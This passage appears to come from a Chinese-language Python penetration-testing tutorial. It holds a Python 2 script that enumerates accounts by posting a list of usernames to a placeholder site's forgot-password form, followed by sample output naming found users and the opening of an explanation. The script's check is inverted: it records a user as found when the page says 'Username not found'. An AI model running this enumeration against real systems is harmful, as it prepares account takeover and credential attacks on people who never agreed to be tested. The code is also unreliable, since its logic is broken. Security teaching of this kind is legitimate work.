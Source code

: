 此脚本将尝试检查提供的用户名列表，以确定该应用程序中是否存在帐户：

```py
#brute force username enumeration
import sys
import urllib
import urllib2

if len(sys.argv) !=2:
    print "usage: %s filename" % (sys.argv[0])
    sys.exit(0)

filename=str(sys.argv[1])
userlist = open(filename,'r')
url = "http://www.vulnerablesite.com/forgotpassword.html"
foundusers = []
UnknownStr="Username not found"

for user in userlist:
  user=user.rstrip()
  data = urllib.urlencode({"username":user})
  request = urllib2.urlopen(url,data)
  response = request.read()

  if(response.find(UnknownStr)>=0):
    foundusers.append(user)
  request.close()
userlist.close()

if len(foundusers)>0:
  print "Found Users:\n"
  for name in foundusers:
    print name+"\n"
else:
  print "No users found\n"
```

以下是此脚本的输出示例：

```py
python bruteusernames.py userlist.txt
Found Users:
admin
angela
bob
john

```

## 它是如何工作的...

此脚本引入了比基本用户名检查更多的概念。其中之一是打开文件以加载我们的列表：
